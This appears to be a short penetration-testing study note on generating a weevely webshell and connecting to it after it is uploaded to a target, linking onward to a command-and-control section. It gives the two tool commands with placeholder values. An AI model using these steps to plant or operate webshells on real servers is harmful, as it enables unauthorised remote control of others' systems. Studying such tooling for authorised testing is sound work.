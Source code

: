 ## Generate Webshell

^e8491c

Unlike the regular reverse/bind shells that we use to receive a connection. Webshells functions way differently that it doesn't require port forwarding nor a C2 server when sending commands from the attacker. It only requires a foothold to continue on the cyber intrusion.

Generate a weevely webshell

```
$ weevely generate <password> <path>
```

After succesfully uploading on the target's system we can finally move on to post exploitation phase.

```
$ weevely <URL> <password>
```

Navigate to the **Command and Control** section related to [[05 - Spawn Callback Shell|spawn callback shell]].